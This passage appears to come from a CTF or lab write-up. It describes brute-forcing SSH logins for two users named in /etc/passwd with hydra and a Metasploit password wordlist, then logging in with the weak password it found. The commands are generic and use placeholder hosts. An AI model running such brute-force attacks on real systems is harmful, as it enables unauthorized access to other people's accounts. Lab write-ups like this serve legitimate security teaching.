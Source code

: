 # Other access methods

To learn more about how the system works, and possibly other vectors of exploits, I decided to further explore the web application.

### Brute forcing SSH password

As we have seen previously, there are 2 users that stands out in the `/etc/passwd` file: _joshua_ and _charles_. I attempted a password brute force attack on their SSH login with the wordlist from Metasploit `/usr/share/wordlists/metasploit/unix_passwords.txt` :

{% code overflow="wrap" %}
```sh
$ hydra -l joshua -P <wordlist> -t 6 ssh://<host>
$ hydra -l charles -P <wordlist> -t 6 ssh://<host>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the password _**123456**_ for both usernames `joshua` and `charles`. We can now SSH with the usernames and gain a remote shell:

```sh
$ ssh <user>@<host>
```

